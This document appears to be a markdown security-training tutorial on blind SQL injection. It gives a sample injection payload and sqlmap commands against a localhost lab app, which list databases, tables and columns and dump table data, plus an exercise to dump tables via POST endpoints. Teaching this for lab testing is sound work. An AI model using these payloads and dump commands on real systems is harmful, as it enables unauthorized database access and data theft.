 # SQL Injection

Blind SQL injections (blind SQLi) occur when a web application is exposed to SQL injection, but its 
HTTP responses don’t contain the results of the SQL query or any details of database errors.

In a Blind SQL Injection, attackers never see the output of the SQL queries. Still, they may see if 
the application or web page loads normally, and discern how long the SQL server needs to process the 
SQL query that an attacker passed in the user input.[¹](#references)

In the next links, you may find interesting information about vulnerability testing and some tricks 
that will help you to defend your applications against attacks:
- [Boolean-based blind test](https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html)
- [SQLi Cheat-Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet)

Simple demonstration of the error: `?product=")%20OR%201=1%20%23`

### SQLMap
[Kali tools - SQLMap](https://www.kali.org/tools/sqlmap/)

#### Install it

```bash
$ sudo apt install sqlmap
```

#### Use it

```bash
# List databases
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --dbs

# List tables
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> --tables

# List columns
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --col
# or for one table:
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --col

# Dump table data 
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --dump
```

## 🖱️ Hands on

Test the sqlmap script with POST endpoints with

```bash
$ sqlmap -u "URL" --data="POST_DATA" -p paramether_to_test <...>
```

And try to obtain a dump from the tables.

## References
 1. [What is blind sqli?](https://brightsec.com/blog/blind-sql-injection/)